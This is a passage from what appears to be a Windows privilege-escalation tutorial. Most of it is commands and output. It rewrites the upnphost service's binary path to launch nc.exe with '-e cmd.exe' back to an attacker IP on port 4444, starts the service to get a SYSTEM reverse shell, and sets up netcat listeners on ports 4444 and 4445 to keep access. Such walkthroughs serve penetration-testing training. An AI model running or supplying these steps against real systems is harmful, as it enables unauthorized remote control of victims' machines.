       C:\> sc config upnphost binpath= "C:\nc.exe -nv [ip] [port] -e C:\WINDOWS\System32\cmd.exe"

      # Example
      C:\> sc config upnphost binpath= "C:\nc.exe -nv 192.168.0.2 4444 -e C:\WINDOWS\System32\cmd.exe"								
      [SC] ChangeServiceConfig SUCCESS

      # Set obj and password
      C:\> sc config upnphost obj= ".\LocalSystem" password= ""
      [SC] ChangeServiceConfig SUCCESS							


   Our upnphost service should now be ready to execute our nc.exe binary and connect back to a listener we will set up on our attacking machine. Let's do one last check of our upnphost service and make sure everything is as it should be.

      C:\> sc qc upnphost
      [SC] GetServiceConfig SUCCESS

      SERVICE_NAME: upnphost                                                                                 
              TYPE               : 20  WIN32_SHARE_PROCESS 
              START_TYPE         : 3   DEMAND_START     
              ERROR_CONTROL      : 1   NORMAL
              BINARY_PATH_NAME   : C:\nc.exe -nv 192.168.0.2 4444 -e C:\WINDOWS\System32\cmd.exe   
              LOAD_ORDER_GROUP   :   
              TAG                : 0  
              DISPLAY_NAME       : Universal Plug and Play Device Host  
              DEPENDENCIES       : SSDPSRV  
              SERVICE_START_NAME : NT AUTHORITY\LocalService							
    							

   Looks perfect! The next thing to do is set up a simple listener on our attacking machine. I prefer to use Netcat for this.

      root@pwnux:~# nc -lvnp 4444							


   We are now ready to start the upnphost service and execute our reverse shell via the new binary path we provided.

      C:\> net start upnphost							
    							

   We have now received a SYSTEM shell on our listener at our attacking machine! But there's another problem. The shell is unstable and it closes after about 30 seconds. Luckily there is a way to solve this. Once we get the unstable shell on port 4444, we will execute another command right away that will establish a 2nd connection to another listener we set up on another port. When the unstable shell is closed, set up your listener again at port 4444 and set up a 2nd listener in another tab on another port. I will set my 2nd listener at port 4445.

      # TAB 1
      root@pwnux:~# nc -lvnp 4444

      # TAB 2
      root@pwnux:~# nc -lvnp 4445								
    							